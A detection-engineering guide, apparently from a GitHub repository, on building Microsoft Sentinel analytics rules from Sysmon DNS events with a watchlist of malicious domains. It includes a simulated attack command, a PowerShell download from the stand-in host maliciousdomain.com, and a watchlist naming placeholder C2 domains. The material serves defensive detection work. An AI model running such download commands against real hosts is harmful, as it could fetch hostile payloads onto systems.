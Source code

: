 
# Threat Hunting Guide — Custom Detection-as-Code (Sysmon + Sentinel)

## Objective

Create custom detection rules using **Sysmon logs + KQL** inside Microsoft Sentinel, targeting specific MITRE ATT&CK techniques. Incorporate watchlists for dynamic IOC correlation.

---

## 🛠️ Tools Used

| Tool / Component           | Purpose                                      |
|---------------------------|----------------------------------------------|
| Sysmon                    | Generate endpoint telemetry (DNS, process)   |
| Microsoft Sentinel        | SIEM for detection and response              |
| KQL                       | Query language to build analytics rules      |
| MITRE ATT&CK              | Mapping tactics/techniques to detections     |
| Watchlists                | Store malicious domains as IOCs              |
| Azure Monitor Agent       | Forwards Sysmon logs to Sentinel             |

---

## 🧪 Simulation Setup

### Simulated Attack:

```powershell
Invoke-WebRequest -Uri http://maliciousdomain.com -OutFile C:\temp\data.zip
```

📌 This triggers:
- **Sysmon Event ID 22**: DNS query to malicious domain




## 🛡️ Detection Rule Setup (Scheduled Query)

1. Go to: **Microsoft Sentinel > Analytics > + Create**
2. Type: **Scheduled Query Rule**
3. Paste the KQL
4. Set:
   - Frequency: Every 5 minutes
   - Lookup Period: Last 5 minutes
   - Severity: High
   - MITRE tactic (e.g., Command & Control, Exfiltration)
5. Enable **Incident Creation**
6. Add **Entity Mapping**:
   - `Computer → Computer`

---

## Watchlist Configuration

1. File name: `M-Domains.csv`
2. Columns:
   ```csv
   MaliciousDomains
   maliciousdomain.com
   evilc2.com
   fakebank.net
   ```
3. Upload via:
   - Sentinel → Configuration → Watchlist → + New
   - Watchlist name: `M-Domains`
   - Alias: `MaliciousDomains`

---

## ✅ Validation Steps

1. Run `Invoke-WebRequest` on listed domains
2. Confirm Event ID 22 is generated in the VM
3. Use Sentinel → Logs → Run KQL queries
4. Verify alerts are generated from Analytics Rules
5. Confirm Incidents appear under Sentinel → Incidents

---

---
